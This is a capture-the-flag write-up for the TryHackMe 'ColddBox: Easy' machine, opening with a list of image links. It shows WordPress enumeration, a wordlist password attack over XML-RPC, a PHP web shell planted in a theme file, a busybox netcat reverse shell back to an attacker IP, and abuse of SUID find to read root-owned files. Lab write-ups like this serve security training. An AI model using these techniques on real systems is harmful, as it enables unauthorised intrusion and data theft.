










## TryHackMe Room - [ColddBox: Easy](https://tryhackme.com/room/colddboxeasy)

An easy level machine with multiple ways to escalate privileges. By Hixec.

> Can you get access and get both flags?

**Difficulty:** Easy  
**Focus:** WordPress exploitation and Linux privilege escalation.

## Enumeration

### Nmap Scan

Starting with a full port scan and service detection:

```bash
nmap -p- -vv <TARGET_IP> -sV
```

**Results:**
```
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 (Ubuntu)
4512/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10
Service Info: OS: Linux
```

We have:
- A **web server** on port **80**
- **SSH** on a **non-standard port (4512)**

Begin by checking the web application.

### Web Application Discovery

While visiting the site, the browser may request assets such as:

```
GET /wp-content/themes/twentyfifteen/js/functions.js
```

This indicates the application is **WordPress**.

### WordPress Enumeration

Enumerate the WordPress instance with `wpscan`:

```bash
wpscan --url http://<TARGET_IP>/ -e
```

**Key findings:**
```
[+] WordPress version 4.1.31 identified (Insecure)
[+] XML-RPC seems to be enabled: /xmlrpc.php
[+] Theme in use: twentyfifteen
```

User enumeration reveals several usernames (e.g. `c0ldd`, `hugo`, `philip`). We have:
- An **outdated WordPress version**
- **XML-RPC enabled**
- **Multiple valid usernames**

This makes an XML-RPC password attack a viable option.

## Initial Access

### Password Attack via XML-RPC

Run a password attack against the enumerated users with a wordlist:

```bash
wpscan --url http://<TARGET_IP>/ \
  -U c0ldd,hugo,philip \
  -P /usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou-40.txt
```

After some time, we get a hit:

```
[SUCCESS] - c0ldd / <REDACTED>
```

Valid credentials are discovered. Log in at:

```
http://<TARGET_IP>/wp-login.php
```

Once logged in, the user has **Administrator** privileges, so we can edit theme files and execute PHP code.



### Remote Code Execution

Navigate to **Appearance → Theme Editor** and select **404.php** (or another editable theme file).



Add the following PHP at the top of the file:

```php
<?php system($_GET['cmd']); ?>
```



Save the file and test command execution by visiting:

```
http://<TARGET_IP>/wp-content/themes/twentyfifteen/404.php?cmd=id
```

The command runs successfully, confirming **RCE**.



### Reverse Shell

Start a local netcat listener:

```bash
nc -lnvp 1337
```

Use the web shell to execute a reverse shell. If `nc -e` is not available, try:

```bash
busybox nc <YOUR_IP> 1337 -e sh
```

Or use a PHP reverse shell payload in the `cmd` parameter (URL-encoded). Trigger the request; the connection is received and we have a shell as **www-data**.



### Shell Stabilization

Upgrade to a more stable shell:

```bash
which python3
python3 -c 'import pty; pty.spawn("/bin/bash")'
```



## User Flag

Try to read the user flag:

```bash
cat /home/c0ldd/user.txt
```

We get **Permission denied**—the file is owned by `c0ldd` and we are `www-data`. We need to escalate privileges first.



## Privilege Escalation

### SUID Enumeration

Search for SUID binaries:

```bash
find / -perm -u=s -type f 2>/dev/null
```

**Relevant output:**
```
/usr/bin/find
/usr/bin/sudo
/usr/bin/pkexec
/bin/su
```

The presence of **SUID `find`** is notable—it can be abused when misconfigured.

### Abusing SUID find (GTFOBins)

According to [GTFOBins](https://gtfobins.github.io/gtfobins/find/), `find` with SUID can be used to read arbitrary files by executing `cat` with the `-exec` option:

```bash
find <path_to_file> -exec cat {} \;
```



### Reading user.txt

Use SUID `find` to read the user flag:

```bash
find /home/c0ldd/user.txt -exec cat {} \;
```

The output is the **user flag** (it may be Base64-encoded; decode if required).



## Root Flag

Use the same technique to read the root flag:

```bash
find /root/root.txt -exec cat {} \;
```

Decode the result if it is Base64-encoded to get the **root flag**.



Challenge solved.

## References

1. [GTFOBins - find](https://gtfobins.github.io/gtfobins/find/)
2. [WPScan](https://wpscan.com/)

---

## Answers

### Task 1 - ColddBox: Easy

> Can you get access and get both flags?

1. **What is the value of user.txt?**

   **Ans.** `<REDACTED>`

2. **What is the value of root.txt?**

   **Ans.** `<REDACTED>`
